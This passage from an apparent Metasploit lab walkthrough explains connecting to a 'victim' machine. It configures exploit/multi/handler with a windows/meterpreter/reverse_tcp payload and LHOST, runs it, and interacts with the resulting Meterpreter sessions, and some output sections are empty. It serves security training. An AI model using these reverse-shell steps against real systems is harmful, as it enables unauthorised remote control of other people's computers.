



2. Conneting to the victim
Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'.
1. Search an exploit.
msf5 > search multi/handler
Output:

2. Use the exploit.
Run the command 'use NUMBER_NEXT_TO exploit/multi/handler` wherein the number will be what appears in that far left column . In this way, we can use our search results without typing out the full name/path of the module we want to use.
msf5 > use 5
Output:
msf5 exploit(multi/handler) >
3. Set the Payload.
msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
Output:
PAYLOAD => windows/meterpreter/reverse_tcp
4. Set options.
If you have selected a specific module, you can issue the command to display which settings are available and/or required for that specific module.
msf5 > show options
Output:

msf5 > set LHOST <YOUR IP>
5. Run the exploit.
Run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.
6. Sessions.
The sessions command allows you to list, interact with, and kill spawned sessions. The sessions can be shells, Meterpreter sessions, VNC, etc.
6.1 List sessions.
List any active session.
msf5 > sessions -l
Output:

6.2 Interact with a given session.
msf5 > sessions -i 1
Output:
[*] Starting interaction with 1...
meterpreter >